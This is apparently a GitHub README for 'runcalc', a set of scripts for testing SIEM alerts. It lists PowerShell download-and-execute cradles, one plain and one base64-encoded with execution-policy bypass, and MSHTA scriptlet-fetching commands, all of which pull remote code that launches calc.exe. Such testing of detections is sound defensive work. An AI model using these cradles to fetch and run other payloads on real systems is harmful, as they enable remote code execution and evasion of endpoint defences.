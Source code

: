# runcalc
Just some basic scripts for testing SIEM alerts


# Invoke-Expression
This powershell script just launch calc.exe using methods to download and execute various malicious payloads.  Below are some of the ways to call this.

### Standard Execution
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/runcalc/main/invokecalc.ps1');invoke-calc"

### Base 64 Encoded Execution
powershell -noprofile -noninteractive -executionpolicy bypass -encodedcommand cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBlAHgAZQBjACAAQgB5AHAAYQBzAHMAIAAtAEMAIAAiAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGwAbwBzAHQAdAByAG8AbABsAC8AYgBsAHUAZQB0AGUAcwB0AHMALwBtAGEAaQBuAC8AaQBuAHYAbwBrAGUAYwBhAGwAYwAuAHAAcwAxACcAKQA7AGkAbgB2AG8AawBlAC0AYwBhAGwAYwAiAA==

## MSHTA
The command will use MSHTA to download a payload that executes calc.exe

### Standard Execution
mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct").Exec();close();

mshta vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct"")"))

